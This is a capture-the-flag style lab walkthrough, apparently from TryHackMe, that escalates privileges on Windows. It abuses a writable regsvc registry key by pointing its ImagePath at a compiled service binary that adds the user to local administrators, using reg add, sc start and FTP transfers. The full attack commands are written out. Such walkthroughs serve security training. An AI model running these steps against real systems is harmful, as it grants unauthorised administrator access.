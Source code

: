 # Service Escalation - Registry

- Using `Get-Acl` we determine that the `NT AUTHORITY\INTERACTIVE` has full control over the `regsvc` registry
- We can add a malicious executable to the registry service
- We can exploit this to either get a reverse shell or add a user

## Step 1: Detection

- Open PowerShell prompt and type: **`Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`**

```jsx
C:\Users\user> powershell -ep bypass
PS C:\Users\user> Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

- Notice that the output suggests that user belong to “`NT AUTHORITY\INTERACTIVE`” has “`FullContol`” permission over the registry key.

![get_acl](service_escalation_registry/images/get_acl.png)

## Step 2: Transfer File

- Start FTP server on port 21 and allow `write` access

```jsx
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ pip3 install pyftpdlib

┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ python -m pyftpdlib -p 21 --write
/home/vagrant/.local/lib/python3.11/site-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2023-12-27 23:12:18] concurrency model: async
[I 2023-12-27 23:12:18] masquerade (NAT) address: None
[I 2023-12-27 23:12:18] passive ports: None
[I 2023-12-27 23:12:18] >>> starting FTP server on 0.0.0.0:21, pid=2440229 <<<
```

- Open terminal in the directory where `windows_service.c` is located

![source](/images/source.png)

- Copy ‘`C:\Users\User\Desktop\Tools\Source\windows_service.c`’ to the attack machine

```jsx
C:\Users\User\Desktop\Tools\Source> ftp 10.18.48.44
User (10.18.48.44:(none)): anonymous
Password:
230 Login successful
ftp> put windows_service.c
```

![put](/images/put.png)

## Step 3: Exploitation

- Open `windows_service.c` in a text editor and replace the command used by the system() function to: **`cmd.exe /k net localgroup administrators user /add`**

![edit](/images/edit.png)

- Compile the file by typing the following in the command prompt:
  - **`x86_64-w64-mingw32-gcc windows_service.c -o x.exe`**
  - **NOTE: if this is not installed, use '`sudo apt install gcc-mingw-w64`'**

```jsx
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

- Copy the generated file `x.exe`, to the target using the `pytfp` server
- Make sure to use `binary` mode for the transfer process

![get](/images/get.png)

### Add Executable to `ImagePath` of the Registry Service

- Open command prompt at type:

**`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`**

```jsx
C:\Temp> **reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f**
```

- Start the `registry service` in the command prompt type: **`sc start regsvc`**

```jsx
C:\Temp> sc start regsvc
```

- Verify the `user` account has been added to the `local administrators` group

```jsx
C:\Temp> net localgroup administrators
```

![start](/images/start.png)

